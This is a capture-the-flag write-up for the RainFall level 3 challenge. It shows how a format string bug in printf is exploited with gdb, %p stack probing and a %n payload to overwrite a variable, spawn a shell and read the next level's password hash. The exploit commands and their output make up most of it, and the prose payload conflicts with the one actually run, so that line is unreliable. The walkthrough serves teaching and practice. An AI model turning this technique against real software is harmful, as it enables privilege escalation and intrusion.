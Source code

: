 # Level 3

This program is vulnerable to format string since the printf function is used to print the buffer without specifying a format string. We can use the format string to overwrite the value of m to 64 and spawn a shell, we can use the %n format specifier, here is what it does according to the manual:

```
The number of characters written so far is stored into the integer indicated by the int * (or variant) pointer argument. No argument is converted.
```

Basically, it means that %n will write the size of our input at the address pointed by %n

Let's find the address to the m variable:

```bash
level3@RainFall:~$ gdb -q level3 
Reading symbols from /home/user/level3/level3...(no debugging symbols found)...done.
(gdb) p &m
$1 = (<data variable, no debug info> *) 0x804988c
(gdb) 
```

We have the address of the variable

```bash
level3@RainFall:~$ ./level3 
AAAA %p %p %p %p %p %p
AAAA 0x200 0xb7fd1ac0 0xb7ff37d0 0x41414141 0x20702520 0x25207025
```

Now we can see that the buffer is the 4th argument on the stack, so we can use the %4$p format specifier to print the value of the buffer:


```bash
level3@RainFall:~$ ./level3 
AAAA %4$p
AAAA 0x41414141
```

Now we can use the `%n` format specifier to write the value 64 to the address of the `m` variable. To achieve this, we need to write 64 characters to the buffer first, w, we just need to write the proper value at this address. The following input should do the trick : "\x8c\x98\x04\x08%x60%5$n". Note that we only need to add 60 as the address is 4 bytes long.


```bash
level3@RainFall:~$ python2 -c "print '\x8c\x98\x04\x08' + '%60x' + '%4\$n'" > /tmp/exploit2
level3@RainFall:~$ cat /tmp/exploit2 - | ./level3 
�                                                         200
Wait what?!
id
uid=2022(level3) gid=2022(level3) euid=2025(level4) egid=100(users) groups=2025(level4),100(users),2022(level3)
cd /home/user/level4
cat .pass
b209ea91ad69ef36f2cf0fcbbc24c739fd10464cf545b20bea8572ebdc3c36fa
```



